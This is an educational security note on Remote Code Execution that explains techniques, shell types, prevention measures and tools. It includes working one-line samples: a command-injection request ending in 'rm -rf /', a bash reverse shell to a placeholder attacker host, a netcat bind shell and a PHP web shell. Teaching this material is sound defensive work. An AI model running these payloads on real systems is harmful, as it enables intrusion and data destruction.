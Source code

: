 <br>

# Remote Code Execution (RCE)
Remote Code Execution (RCE) is **a critical security vulnerability that allows an attacker to execute arbitrary code on a remote machine, typically with the privileges of the exploited application or service**. Once RCE is achieved, attackers often escalate their privileges or establish persistent access by getting a shell on the target system.

## 1. How RCE Works
RCE exploits vulnerabilities in applications, services, or protocols to execute code provided by the attacker.  

  - **Input Validation Issues**
    - Unvalidated or unsanitized user input is directly processed as executable code.
    - Example: Command injection or deserialization vulnerabilities.
  - **Software Bugs**
    - Exploiting flaws in software logic or memory management.
    - Example: Buffer overflows or use-after-free vulnerabilities.
  - **Configuration Weaknesses**
    - Misconfigured systems or applications allowing unintended code execution.
    - Example: Misconfigured web servers executing user-uploaded scripts.  
<br>

## 2. Techniques to Achieve RCE
### a. Injection Vulnerabilities
  - **Command Injection**
    - Injecting malicious commands into a vulnerable system that executes them.
    - Example  

```
GET /ping?ip=127.0.0.1;rm -rf / HTTP/1.1
```

  - **SQL Injection with Execution**
    - Exploiting database functions to execute system commands.
    - Example: xp_cmdshell in SQL Server.

### b. Deserialization Attacks
  - Definition: Sending malicious serialized objects to applications that deserialize data insecurely.
  - Example:
    - Injecting payloads into Java or Python serialized objects to execute commands.

### c. Exploiting Memory Corruption
  - **Buffer Overflow**
    - Overwriting memory locations to execute arbitrary code.
  - **Return-Oriented Programming (ROP)**
    - Using existing executable code (gadgets) in memory to achieve execution.

### d. Exploiting Web Application Vulnerabilities
  - **File Uploads**
    - Uploading malicious scripts to servers and accessing them via a browser.
  - **Remote File Inclusion (RFI)**
    - Including external malicious scripts via unsanitized URLs.

### e. Exploiting Remote Services
  - **Exposed APIs**
    - Sending payloads to vulnerable APIs that execute code.
  - **Weak Authentication**
    - Exploiting poorly protected admin panels or services to execute commands.  
<br>

## 3. Getting Shells
Once RCE is achieved, attackers often aim to establish a shell for interactive access to the target system.

### a. Reverse Shell
  - Definition: A shell that connects back to the attacker’s machine.
  - Mechanism:
    - The **attacker sets up a listener** on their machine.
    - The payload on the victim’s machine opens a connection to the attacker.
  - Example (Bash)  

```
bash -i >& /dev/tcp/attacker_ip/port 0>&1
```

### b. Bind Shell
  - Definition: A shell that **listens on a port on the target machine, allowing the attacker to connect** to it.
  - Mechanism:
    - The target machine opens a port and binds the shell to it.
    - **The attacker connects to this port** to access the shell.
  - Example (Netcat)  

```
nc -lvp 4444 -e /bin/bash
```

### c. Web Shell
  - Definition: A malicious script uploaded to a web server that provides remote command execution via HTTP requests.
  - Example (PHP)  

```
<?php echo shell_exec($_GET['cmd']); ?>
```
  
<br>

## 4. Prevention of RCE and Shell Exploits
### a. Input Validation and Sanitization
  - **Validate and sanitize all user inputs**, especially those interacting with system commands or file paths.
  - Example: Use parameterized queries in SQL to prevent SQL injection.

### b. Secure Coding Practices
  - **Avoid insecure functions** (e.g., eval(), exec(), system()).
  - Use safer alternatives or libraries for handling external processes.

### c. Patch Management
  - **Regularly update and patch** software to fix known vulnerabilities.

### d. Access Controls
  - **Restrict access** to sensitive services and endpoints.
  - Use strong authentication for administrative interfaces.

### e. Configure Systems Securely
  - **Disable unused features or functions** (e.g., xp_cmdshell in SQL Server).
  - Set appropriate file permissions to prevent unauthorized execution.

### f. Use Security Tools
  - **Web Application Firewalls (WAFs)**
    - Block malicious payloads targeting web applications.
  - **Endpoint Detection and Response (EDR)**
    - Monitor and detect malicious activity on endpoints.
  - **Intrusion Detection Systems (IDS)**
    - Identify and alert on suspicious behavior, such as unexpected reverse shell activity.

### g. Segmentation and Least Privilege
  - **Isolate critical systems** to limit the impact of RCE.
  - Ensure processes run with the **minimum privileges** needed.  
<br>

## 5. Tools Used by Attackers and Defenders

### a. Tools for Exploitation
  - **Metasploit**
    - A framework for developing and executing exploits.
  - **Netcat**
    - A utility for reverse and bind shells.
  - **Cobalt Strike**
    - A commercial tool often used in penetration testing (and by attackers).

## b. Tools for Prevention and Detection
  - **Snort/Suricata**
    - **Network-based IDS/IPS** for detecting malicious traffic.
  - **OSQuery**
    - **Monitors system** behavior to identify abnormal processes.
  - **SIEM Solutions**
    - **Aggregates logs and alerts to detect RCE and shell activity**.  
<br>

## 6. Summary

| Aspect | Details |
| ------ | ------- |
| What Is RCE? | A vulnerability allowing execution of arbitrary code on a remote system. |
| Common Techniques | Command injection, deserialization, memory corruption, and file uploads. |
| Shell Types | Reverse shell, bind shell, web shell. |
| Prevention Strategies | Input validation, secure coding, patch management, and access controls. |
| Key Tools | Metasploit, Netcat, WAFs, IDS, EDR. |

**Remote Code Execution (RCE) is one of the most critical and dangerous vulnerabilities, often serving as a gateway to more severe attacks like data breaches or ransomware deployment**. By understanding how RCE works, including its techniques and preventive measures, organizations can significantly enhance their defenses against these threats and safeguard their systems from exploitation.  
<br>